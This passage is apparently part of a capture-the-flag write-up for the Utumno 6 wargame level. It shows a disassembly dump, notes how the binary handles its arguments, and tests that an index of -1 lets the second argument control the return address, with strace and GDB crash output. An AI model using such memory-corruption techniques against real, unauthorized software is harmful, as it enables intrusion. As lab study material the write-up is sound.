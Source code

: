 ```nasm
   0x08048583 <+168>:	push   eax
   0x08048584 <+169>:	call   0x8048370 <strcpy@plt>
   0x08048589 <+174>:	add    esp,0x8
   0x0804858c <+177>:	mov    edx,DWORD PTR [ebp-0x34]
   0x0804858f <+180>:	mov    eax,DWORD PTR [ebp-0x8]
   0x08048592 <+183>:	mov    eax,DWORD PTR [ebp+eax*4-0x30]
   0x08048596 <+187>:	push   edx
   0x08048597 <+188>:	push   eax
   0x08048598 <+189>:	push   DWORD PTR [ebp-0x8]
   0x0804859b <+192>:	push   0x8048684
   0x080485a0 <+197>:	call   0x8048360 <printf@plt>
   0x080485a5 <+202>:	add    esp,0x10
   0x080485a8 <+205>:	mov    eax,0x0
   0x080485ad <+210>:	leave
   0x080485ae <+211>:	ret
End of assembler dump.
```

It seems that the code do some convertion on the args. The first arg is converted to **base10**, the second to **base16** and the third is a **string**.

```bash
utumno6@utumno:/utumno$ ./utumno6 8 A foobar
Table position 8 has value 10
Description: foobar
```

After some test, I realised that by passing an invalid postion (**-1**) we can use the second argument as a return address.

```nasm
utumno6@utumno:/utumno$ strace ./utumno6 -1 0x41414141 foobar
execve("./utumno6", ["./utumno6", "-1", "0x41414141", "foobar"], [/* 20 vars */]) = 0
strace: [ Process PID=16355 runs in 32 bit mode. ]

...[removed]...

--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV +++
Segmentation fault
```

However, when we run it into **GDB** we get a different result :

```nasm
utumno6@utumno:/utumno$ gdb -q ./utumno6
Reading symbols from ./utumno6...done.
(gdb) set disassembly-flavor intel
(gdb) run -1 0x41414141 BBBB
Starting program: /utumno/utumno6 -1 0x41414141 BBBB

Program received signal SIGSEGV, Segmentation fault.
0xf7e998d2 in ?? () from /lib32/libc.so.6
```
